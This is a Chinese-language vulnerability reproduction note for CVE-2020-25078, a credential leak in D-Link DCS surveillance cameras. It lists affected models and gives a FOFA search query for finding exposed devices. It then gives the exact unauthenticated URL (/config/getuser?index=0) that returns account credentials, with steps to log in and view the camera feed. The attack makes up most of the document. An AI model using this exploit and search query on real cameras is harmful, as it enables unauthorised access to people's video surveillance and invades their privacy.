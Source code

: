 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

<a-checkbox checked>DCS-2530L</a-checkbox></br>
<a-checkbox checked>DCS-2670L</a-checkbox></br>
<a-checkbox checked>DCS-4603</a-checkbox></br>
<a-checkbox checked>DCS-4622</a-checkbox></br>
<a-checkbox checked>DCS-4701E</a-checkbox></br>
<a-checkbox checked>DCS-4703E</a-checkbox></br>
<a-checkbox checked>DCS-4705E</a-checkbox></br>
<a-checkbox checked>DCS-4802E</a-checkbox></br>
<a-checkbox checked>DCS-P703</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DCS-2530L"</a-checkbox></br>

## 漏洞复现



访问登录页面如下



![img](../../../.vuepress/public/img/link-9.png)



出现漏洞的 Url 为, 其中泄露了账号密码



```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![img](../../../.vuepress/public/img/link-10.png)



使用泄露的账号密码登陆系统



![img](../../../.vuepress/public/img/link-11.png)
